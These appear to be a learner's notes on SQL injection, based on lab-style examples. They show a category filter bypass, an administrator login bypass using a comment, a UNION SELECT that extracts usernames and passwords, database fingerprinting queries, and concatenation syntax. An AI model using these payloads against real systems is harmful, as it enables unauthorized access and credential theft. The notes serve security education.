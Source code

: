 Becomes: 
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Modified: https://insecure-website.com/products?category=Gifts'+OR+1=1--

Becomes: 
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
This will bypass the restriction on seeing unreleased items. 

## Example Login/ Subverting Application Logic: 
Normal: 
```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Hack: by pass the need for a password by using ```administrator'--``` as the user name

Becomes: 
```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
this tells it to ignore the password filed and just login as administrator.


## Example Retrieving Data From Other Database Tables:
user searches for gifts
```
SELECT name, description FROM products WHERE category = 'Gifts'
```
Hack: search the following query to get a list of usernames and passwords
```
' UNION SELECT username, password FROM users--
```
Will close the quotes, add instructions to get username and passwords from the table users


## Example Examining The Database
For Oracle: 
```
SELECT * FROM v$version
```

Most Databases: 
```
SELECT * FROM information_schema.tables
```

# String concatenation
You can concatenate together multiple strings to make a single string.

| Language | Syntax |
|----------|--------|
|**Oracle**      |'foo'\|\|'bar'|
|**Microsoft**   |'foo'+'bar'|
|**PostgreSQL**  |'foo'\|\|'bar'|
|**MySQL**	|'foo' 'bar' **[Note the space between the two strings]**|
||CONCAT('foo','bar')|
